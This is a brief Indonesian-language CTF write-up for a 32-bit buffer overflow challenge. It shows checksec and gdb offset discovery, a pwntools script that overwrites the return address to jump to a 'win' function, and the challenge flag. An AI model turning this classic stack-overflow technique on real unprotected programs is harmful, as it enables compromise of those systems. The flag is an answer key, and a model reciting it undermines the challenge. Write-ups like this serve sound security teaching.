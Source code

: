 # 💥 GreyHat CTF 2025 - Buffer Overflow Challenge

## 🧠 Deskripsi
Kita diberikan file binary 32-bit dengan tantangan buffer overflow klasik.

## 🧪 Analisis Awal

```bash
checksec vuln
```

→ No stack canary, NX disabled.
```bash
gdb ./vuln
pattern create 100
run < pattern
pattern offset 0x41414141  → offset ditemukan: 76
```

## 🛠️ Exploit
```python
from pwn import *

context.binary = './vuln'
elf = context.binary
p = process(elf.path)

offset = 76
win_addr = elf.symbols['win']

payload = b'A' * offset + p32(win_addr)
p.sendline(payload)
p.interactive()
```
Flag: `greyhat{cl4ss1c_b0f_expl01t}`
